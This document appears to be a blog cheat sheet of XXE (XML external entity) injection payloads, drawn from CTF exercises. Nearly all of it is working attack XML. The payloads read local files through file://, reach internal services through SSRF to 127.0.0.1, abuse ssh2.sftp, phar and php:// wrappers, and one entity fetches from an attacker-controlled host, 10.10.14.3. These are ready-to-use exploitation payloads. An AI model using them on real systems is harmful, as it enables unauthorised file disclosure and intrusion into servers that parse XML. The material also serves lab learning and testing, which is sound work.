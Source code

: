 ```yaml
---
description: >-
  XXE Basic
title:  XXE Basic             # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, XXE Basic]                     # Change Templates to Writeup
tags: [exploitation, xxe]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Headers:
> To exploit an XXE Content-Type must be `text/xml` 
{: .prompt-tip }

```bash
POST /action HTTP/1.0
Content-Type: text/xml
```

### File Reading
While exploring an XXE it is important to use the tags provided by the application, in this scenario, the entity &xxe is being called as part of the tags from user:

```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "file:///ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### SSRF attacks
Sometimes a local IP address is in place so it is important to use the localhost IP address to get access to the internal resources on the victim machine:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "http://127.0.0.1/2ndGrade/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### SSH2.EXEC, SSH2.SHELL, SSH2.SFTP, SSH2.TUNNEL, SS2.SCP
There is a possibility that ssh is enabled as a wrapper while testing an XXE, for that reason is important to test such payloads that can retrieve files within the system:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "ssh2.sftp://3rdgrader:3rdgrader@127.0.0.1/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### PHAR
Use of phar allows to set an specific path to read the content:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "phar://tmp/ETSCTF-10.10.1.250.tar/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### Custom Wrappers
Sometimes we can identify that there are some custom wrappers within the XXE, a good idea is to do a fuzz with them in order to review if there is any:

Example 1:
```xml

<?xml version="1.0" encoding="ISO-8859-1"?> 

<!DOCTYPE foo [ <!ELEMENT foo ANY > 

<!ENTITY xxe SYSTEM "php://fd/375" >]> 

<creds> 

	<user>&xxe;</user> 
	
	<pass>mypass</pass> 
	
</creds>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "php://temp" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```
Examples:
[ECHO CTF elementary](https://echoctf.red/target/21/writeup/read/4)

### External Entities
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.14.3/pwned.js" > ]>

<Heartbleed>
<Ping>&xxe;</Ping>
</Heartbleed>
```
Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:xml-external-entities)

### XXE Blind Out of Band
For further details read the [XXE Blind Out of Band](https://shuciran.github.io/posts/XXE-Blind-Out-of-Band/) post.
